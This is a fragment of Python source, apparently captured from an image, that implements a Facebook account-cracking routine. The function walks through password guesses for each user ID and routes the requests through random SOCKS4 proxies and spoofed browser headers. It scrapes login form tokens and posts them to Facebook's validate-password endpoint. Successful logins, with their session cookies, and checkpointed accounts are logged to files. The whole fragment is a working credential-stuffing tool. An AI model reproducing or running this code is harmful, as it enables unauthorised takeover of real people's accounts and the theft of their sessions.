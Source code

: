 #--------------------[ METODE-B-API ]-----------------#
 
def crack(idf,pwv):
    global loop,ok,CP
    bo = random.choice([m,k,h,b,u,x])
    sys.stdout.write(f"\r\033[100;92m{bo}[SSC-ON]-{P}[{H}{loop}{P}]-[{H}{len(id)}{P}]-[{H}OK{bo}-{H}{ok}{P}]-[{P}{'{:.0%}'.format(loop/float(len(id)))}{P}]\033[0;37m "),
    sys.stdout.flush()
    ua = random.choice(ugen)
    ua2 = random.choice(ugen2)
    ses = requests.Session()
    for pw in pwv:
        try:
            nip=random.choice(prox)
            proxs= {'http': 'socks4://'+nip}
            ses.headers.update({"Host":'m.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua2,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://m.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
            p = ses.get('https://m.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&_rdr')
            dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p.text)).group(1),"uid":idf,"next":"https://p.facebook.com/login/save-device/","flow":"login_no_pin","pass":pw,}
            koki = (";").join([ "%s=%s" % (key, value) for key, value in p.cookies.get_dict().items() ])
            koki+=' m_pixel_ratio=2.625; wd=412x756'
            heade = {'Host': 'm.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="24", "Chromium";v="116", "Google Chrome";v="109"', 'sec-ch-ua-mobile': '1', 'sec-ch-ua-platform':'"Windows"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent':ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7', 'sec-fetch-site': 'same-origin', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9,bn-BD;q=0.8,bn;q=0.7',}
            po = ses.post('https://m.facebook.com/login/device-based/validate-password/?shbl=0',data=dataa,cookies={'cookie': koki},headers=heade,allow_redirects=False)
            if "checkpoint" in po.cookies.get_dict().keys():
                print(f'\r\033[10;92m\033[1;91m[\033[1;92mSSC-CP\033[1;91m] \033[10;92m\033[1;91m[\033[1;92mNUM\033[1;91m]> {idf} \033[10;92m\033[1;91m[\033[1;92mPASS\033[1;91m]> \033[1;92m{pw}')
                print(f'\033[38;5;196m────────────────────────────────────────────────\033[1;37m')
                os.system('espeak -a 300 " CP, ID"')
                open('CP/'+CPc,'a').write(idf+' • '+pw+'\n')
                akun.append(idf+' • '+pw)
                CP+=1
                break
            elif "c_user" in ses.cookies.get_dict().keys():
                ok+=1
                coki=po.cookies.get_dict()
                kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
                print(f'\r\033[10;92m\033[1;91m[\033[1;92mSSC-OK\033[1;91m] \033[10;92m\033[1;91m[\033[1;92mNUM\033[1;91m]> \x1b[38;5;50m{idf} \033[10;92m\033[1;91m[\033[1;92mPASS\033[1;91m]> \x1b[38;5;50m{pw}\n\x1b[38;5;50 \033[1;91m[🌺]\033[1;91m=\033[1;92m= \x1b[38;5;50m{kuki} ')
                print(f'\033[38;5;196m────────────────────────────────────────────────\033[1;37m')
                os.system('espeak -a 300 " SSC,  Ok,  id"')
                open('OK/'+okc,'a').write(idf+' • '+pw+'\n')
                break
                